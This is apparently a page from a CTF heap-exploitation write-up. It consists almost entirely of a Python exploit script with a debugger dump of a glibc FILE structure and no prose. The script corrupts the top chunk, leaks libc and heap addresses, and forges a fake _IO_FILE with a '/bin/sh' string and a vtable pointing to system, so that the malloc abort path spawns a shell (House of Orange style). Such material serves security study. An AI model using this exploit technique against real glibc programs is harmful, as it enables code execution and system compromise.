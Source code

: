```
  _shortbuf = "",
  _lock = 0x0,
  _offset = 0,
  _codecvt = 0x0,
  _wide_data = 0x0,
  _freeres_list = 0x0,
  _freeres_buf = 0x0,
  __pad5 = 0,
  _mode = 0,
  _unused2 = '\000' <repeats 19 times>
}
```

```python
def add(size):
    sla('choice :','1')
    sla(":",str(size))
    sa(':','a'*8)
    sla(':','1')
    sla(':','1')

def show():
    sla('choice :','2')

def edit(size,name):
    sla('choice :','3')
    sla(":",str(size))
    sa(':',name)
    sla(':','1')
    sla(':','1')

add(0x18)
useless = flat(0,0x21,0x1f00000001,0)
payload = 'a'*0x10 + useless + flat(0,0xfa1)
edit(0x40,payload) # corrupt top chunk

add(0x1000) # old_top -> unsorted
add(0x400) # slice old top
show()
ru('a'*8)
base = uu64(ru('\n'))-1640-libc.sym['__malloc_hook']-0x10
leak('base',base)
system = base + libc.sym['system']
io_list_all = base + libc.sym['_IO_list_all']

'''large chunk:
0x56512e53b0c0:	0x0000000000000000 0x0000000000000411
0x56512e53b0d0:	0x6161616161616161	0x00007f01ea979188
0x56512e53b0e0:	0x000056512e53b0c0	0x000056512e53b0c0
'''
edit(0x10,'a'*0x10)
show()
ru('a'*0x10)
heap = uu64(ru('\n')) - 0xc0
leak('heap',heap)

# jump_table+0x18
payload = flat(0,0,0,system).ljust(0x400,'\x00')
# _flags,size,fd,bk,write_base,write_ptr,padding,fake_vtable
payload += useless + flat('/bin/sh\x00',0x61,0,io_list_all-0x10,2,3,'\x00'*(0xd8-0x30),heap+0xd0)
edit(0x1000,payload)

sla('choice :','1')
```
